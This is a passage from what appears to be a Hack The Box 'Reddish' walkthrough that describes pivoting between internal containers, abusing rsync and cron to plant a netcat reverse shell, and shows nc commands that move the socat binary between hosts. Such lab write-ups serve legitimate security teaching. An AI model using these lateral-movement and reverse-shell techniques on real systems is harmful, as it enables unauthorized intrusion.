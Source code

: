 ![4c13e0f5.png](/assets/images/posts/reddish-htb-walkthrough/4c13e0f5.png)
</a>

Pivoting on how `cron` job is scheduled in `www`, I found a similar `cron` job in `backup` too.

<a class="image-popup">
![5eb2d293.png](/assets/images/posts/reddish-htb-walkthrough/5eb2d293.png)
</a>

No wonder the database backup doesn't complete!

We know `rsync` works both ways. We can copy files from `backup`, we can also copy files over to `backup`. I've done my enumerations. :triumph:

Let's copy two files over. Our beloved `nc` and another `cron` job that runs the `nc` reverse shell back to us. But before we do that, we need to set up a pair of TCP tunnels between `nodered` and `www`; and `nodered` and my attacking machine. If you have been following the walkthrough so far, you realized that there's no `socat` in `www`. As such, we also need to transfer `socat` to `www`, with the help of `nc`, of course.

_On `www`, use the following command_

```
$ /tmp/nc -lnvp 1234 > /tmp/socat &
```

_On `nodered`, use the following command_

```
# nc 172.19.0.3 1234 < /usr/bin/socat &
```
